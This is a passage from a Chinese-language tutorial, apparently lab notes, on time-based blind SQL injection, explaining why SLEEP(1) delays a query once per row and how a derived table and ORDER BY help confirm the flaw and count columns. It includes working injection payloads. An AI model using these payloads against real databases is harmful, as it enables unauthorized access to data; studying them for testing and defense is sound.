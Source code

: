 很巧妙地发现，查询用时增加了，但我们传入的是`SLEEP(1)`，为什么是5秒？

因为在SQL中，`WHERE`子句对每条查询记录都生效，在`users`表中，共有五条记录，每条记录都会执行一次`SLEEP(1)`

```sql
SELECT *
FROM users
WHERE IF(1=1,SLEEP(1),1);
```

> <img src="./IMG3/{43CA8D67-75F9-42D8-82D7-6EEB1EDFAFC7}.png">

为了避免表中记录过多导致长时间等待的情况，可以使用派生表来限制查询次数

```sql
0' OR (SELECT 1 FROM (SELECT IF(1=1,SLEEP(1),1)) AS a)#
```

> <img src="./IMG3/{20B5AB62-4044-4675-A09B-79226DC93463}.png">

这样一来，我们就成功地判断了漏洞类型

###### 判断字段数量

字段数量的判断仍然可以使用`ORDER BY`来进行

```sql
0' OR (SELECT 1 FROM (SELECT IF(1=1,SLEEP(1),1)) AS a) ORDER BY 6#
```

> <img src="./IMG3/{3D4BBE26-CCAB-4D88-8254-6681B5ECF3B0}.png">

